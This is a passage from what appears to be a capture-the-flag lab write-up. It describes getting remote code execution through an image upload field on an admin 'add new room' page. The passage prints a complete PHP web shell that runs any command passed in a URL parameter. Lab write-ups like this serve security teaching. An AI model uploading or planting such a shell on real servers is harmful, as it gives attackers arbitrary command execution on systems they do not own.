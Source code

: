 Going into the admin part, we found some stuff, most relevant one here would be the `add new room` site, since, once we investigate further, we can see the following:

![Pasted image 20241203130657.png](../../IMAGES/Pasted%20image%2020241203130657.png)

There's a image file upload in there! 

This is our way into the RCE, let's fill in some random data and send the shell:

The shell I'll be using is the one provided by the room itself, but, we can use whatever shell we'd like:


```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```
